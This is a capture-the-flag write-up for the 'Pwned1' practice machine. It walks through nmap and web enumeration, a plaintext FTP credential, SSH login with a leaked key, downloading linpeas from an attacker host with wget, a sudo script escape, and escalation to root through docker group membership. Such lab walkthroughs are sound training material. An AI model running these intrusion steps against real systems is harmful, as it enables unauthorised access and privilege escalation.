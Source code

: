 ```yaml
---
description: Pg Practice Pwned1 writeup
---
```


# Pwned1

![](<../../../.gitbook/assets/image (672).png>)

## Nmap

```
sudo nmap 192.168.218.95 -p- -sS -sC

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fe:cd:90:19:74:91:ae:f5:64:a8:a5:e8:6f:6e:ef:7e (RSA)
|   256 81:32:93:bd:ed:9b:e7:98:af:25:06:79:5f:de:91:5d (ECDSA)
|_  256 dd:72:74:5d:4d:2d:a3:62:3e:81:af:09:51:e0:14:4a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Pwned....!!
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.66 seconds
```

## FTP

We have FTP open running vsftpd 3.0.3. As of the time of writing this version does not have any public exploits. I check the anonymous login and we get '530 Permission denied.'

![](<../../../.gitbook/assets/image (674).png>)

## HTTP

We have HTTP open on port 80. I start by running `Feroxbuster` and `nikto` to enumerate directories and scan for vulnerabilities.

![feroxbuster](<../../../.gitbook/assets/image (675).png>)

![Nikto](<../../../.gitbook/assets/image (676) (1).png>)

After a short while `nikto` finishes with the results below.

![](<../../../.gitbook/assets/image (677) (1).png>)

We can take note of the following interesting information:

* /nothing/
* /hidden\_text/
* /robots.txt

Before we look at these we can take a quick look at the root page for http://192.168.218.95

![http://192.168.218.95](<../../../.gitbook/assets/image (678) (1).png>)

The directory /nothing/ contains the following:

![/nothing/](<../../../.gitbook/assets/image (679) (1).png>)

The Directory /hidden\_text/ contains a file secret.dic. We can extract this information and load it into `feroxbuster`.

![/hidden\_text/secret.dic](<../../../.gitbook/assets/image (680).png>)

We get the following results from running the secret.dic file against feroxbuster.

![](<../../../.gitbook/assets/image (681).png>)

the directory /pwned.vuln takes us to the following page:

![http://192.168.218.95/pwned.vuln/](<../../../.gitbook/assets/image (682) (1).png>)

Viewing the page source produces the following information:

![](<../../../.gitbook/assets/image (683) (1).png>)

We have the following credentials:

```
ftpuser:B0ss_Pr!ncesS
```

## FTP

I tried these against the /pwned.vuln page and these credentials are not valid. FTP is a hint due to the username so we can check this next.

![](<../../../.gitbook/assets/image (684).png>)

Once inside FTP we can move into the 'share' directory and download the contents inside.

![](<../../../.gitbook/assets/image (685).png>)

When reading the contents of note.txt we see e have a potential username of 'ariana'.

## SSH

![](<../../../.gitbook/assets/image (686) (1).png>)

The other file we have is a possible SSH key. We can take proper owner of this file with the `chmod` command and then attempt to use this against SSH with the username ariana.

```
chmod 600 id_rsa
```

We can then attempt to use this to login to `SSH` with.

```
ssh -i /home/kali/id_rsa ariana@192.168.218.95
```

![](<../../../.gitbook/assets/image (687).png>)

## Access as user

We now have access as ariana. We can grab the user flag in our current directory before moving onto privilege escalation.

In the directory we have the file 'ariana-personal.diary' which contains the information below:

![](<../../../.gitbook/assets/image (688).png>)

Currently I am not sure how this information could be useful right now as we have already found this directory on the server.

I next upload `linpeas` to get the server using a python server on my attacking machine.

```
wget http://<Attacking-IP>:<port>/linpeas.sh
```

## Privilege Escalation

After running `linpeas.sh` we see the following information that stands out:

![](<../../../.gitbook/assets/image (689) (1).png>)

We can run the following file /home/messenger.sh with sudo without a password requirement as the user selena.

The file messenger.sh is made up of the following:

![](<../../../.gitbook/assets/image (690).png>)

Lets run the file and see what happens.

```
sudo -u selena /home/messenger.sh
```

I tried running a `whoami` command to see if anything interesting would happen and nothing did.

![](<../../../.gitbook/assets/image (692) (1).png>)

We can check [GTFObins ](https://gtfobins.github.io/gtfobins/bash/)to see if we can perform an escape on the script.

![](<../../../.gitbook/assets/image (693).png>)

I run the script again using bash as the value and was then able to perform the `id` command as the user selena.

![](<../../../.gitbook/assets/image (694).png>)

I then upgraded the shell to something a little more usable.

```
/usr/bin/script -qc /bin/bash /dev/null
```

We also have a diary in selene's directory which at this point does not provide any new information.

![](<../../../.gitbook/assets/image (695) (1).png>)

Again we can run `linpeas.sh` to check for any possible privilege escalation routes.

```
wget http://<Attacking-IP>:<port>/linpeas.sh
```

linpeas.sh shows that we are part of the 'docker' group.

![](<../../../.gitbook/assets/image (696).png>)

If we search docker on [GTFObins](https://gtfobins.github.io/gtfobins/bash/) we see we may be able to spawn a root shell.

![](<../../../.gitbook/assets/image (697).png>)

I executed the command above and was able to spawn a root shell.

![](<../../../.gitbook/assets/image (698) (1).png>)
